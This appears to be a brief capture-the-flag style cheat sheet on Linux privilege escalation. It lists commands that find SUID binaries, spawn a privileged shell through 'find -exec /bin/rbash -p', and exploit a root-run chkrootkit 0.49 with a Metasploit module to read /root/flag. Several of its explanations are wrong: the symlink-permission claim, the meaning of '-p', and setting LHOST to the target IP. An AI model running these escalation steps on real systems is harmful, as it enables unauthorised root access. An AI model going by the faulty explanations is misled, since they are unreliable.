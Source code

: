 <br>

# Exploiting SUID Binaries

```shell
# Check the permissions each shell has
cat /etc/shells | while read shell; do ls -l $shell 2>/dev/null; done
# Loops through all valid shell paths listed in /etc/shells and displays their permissions if they exist.
# Useful for checking which shells are present and executable on the system.
# We can use any shell with the permission lrwxrwxrwx for escalation.

# Check for executables with the SetUID bit set that can run with root privileges
find / -perm -4000 2>/dev/null
```

When conducting privilege escalation, identifying SetUID (Set User ID) binaries is critical, as they allow executables to run with the permissions of their owner — often root.

```shell
# We can spawn a new shell with root privileges
find / -exec /bin/rbash -p \; -quit
# Executes /bin/rbash with the -p option from the first file found by 'find', then quits.
# '-p' preserves the environment — potentially bypassing restricted shell protections.
# Useful in privilege escalation or shell escape scenarios.
```

<br>

# Rootkit Scanner

```shell
# To identify the vulnerable program or service, we can list all running processes on the system using the following command:
ps aux # Check for any scripts running that are running chkrootkit as root
# Observe, that there are a couple of processes running i.e. cron and one bash script.
# Investigate the check-down bash script.
cat /bin/check-down
# The chkrootkit rootkit scanner is running as root every 60 seconds. Check the chkrootkit location and its version.
command -v chkrootkit
/bin/chkrootkit -V
# We found the chkrootkit binary location and its version. Searching privilege escalation exploit module for chkrootkit 0.49.

searchsploit chkrootkit 0.49

use exploit/unix/local/chkrootkit
set CHKROOTKIT /bin/chkrootkit
set SESSION <set_session_number>
set LHOST <target_IP>
exploit

cat /root/flag
```
